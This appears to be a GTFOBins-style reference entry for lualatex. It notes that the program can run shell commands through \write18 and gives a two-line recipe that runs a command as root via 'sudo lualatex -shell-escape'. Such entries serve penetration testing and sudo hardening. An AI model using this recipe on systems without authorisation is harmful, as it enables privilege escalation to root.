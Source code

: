 description: `lualatex` is a symbolic link to [`luatex`](/gtfobins/luatex/). However the program does not have the same behaviour regarding the name of argv[0]. It allows to call external command with \write18 but it also allows to call external [`lua`](/gtfobins/lua/) scripts.
functions:
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \usepackage{shellesc} \begin{document} \write18{/usr/bin/id} \end{document}" > file.tex
        sudo lualatex -shell-escape file.tex
